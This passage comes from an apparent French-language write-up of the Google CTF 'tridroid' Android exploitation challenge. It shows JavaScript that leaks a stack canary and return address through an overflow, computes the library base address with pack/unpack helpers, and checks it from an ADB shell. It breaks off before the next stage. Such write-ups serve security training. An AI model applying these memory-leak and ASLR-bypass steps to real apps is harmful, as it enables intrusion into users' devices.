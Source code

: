 ```javascript
modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242");
// skip 40 first bytes (4141...)
leak = top().substring(80);
canary = leak.substring(0, 16);
console.log("Canary : "+canary);
```

Which gives :

```
08-02 21:15:14.483 22159 22159 I chromium: [INFO:CONSOLE(42)] "Return address : ff9601d15f78", source:  (42)
08-02 21:15:14.489 22159 22159 I chromium: [INFO:CONSOLE(51)] "Canary : f39bbcd81de1a225", source:  (51)
```

En utilisant notre session de débogage avec GDB, nous constatons que l'adresse de retour est à l'offset `0x16FF` de la base de libtridroid. En soustrayant cet offset de l'adresse de retour, on obtient l'adresse de base.

Nous avons écrit de petites fonctions d'aide pour "packer" et "depacker" les adresses en little endian :

```javascript
function unpack64(data) {
    return parseInt(data.match(/../g).reverse().join(''), 16);
}

function pack64(data) {
    return data.toString(16).match(/../g).reverse().join('').padEnd(16, '0');
}
```

En les utilisant, nous pouvons divulguer l'adresse de base :

```javascript
base_addr = unpack64(leak) - 0x16FF;
console.log("Base address : "+base_addr.toString(16));
```

Ceci fournit le résultat suivant :

```
08-02 21:33:24.962 22159 22159 I chromium: [INFO:CONSOLE(50)] "Base address : 785fd1018000", source:  (50)
```

Nous pouvons confirmer que l'adresse est bien valide à partir de notre shell ADB :

```
generic_x86_64_arm64:/ # grep "tridroid" /proc/$(pidof com.google.ctf.pwn.tridroid)/maps | grep "r-x" | grep base.apk 
785fd1018000-785fd101a000 r-xp 003a1000 fd:05 40963                      /data/app/~~8HrbOax9i97fF6BJzSPA0Q==/com.google.ctf.pwn.tridroid-2Omui46_qGvtYZn0eUP3ZQ==/base.apk
```

Ayant l'adresse de base, nous pouvons calculer l'adresse de `invokeJavaMethod` car nous savons grâce à Ghidra qu'elle est située à l'offset `0xFA0` :
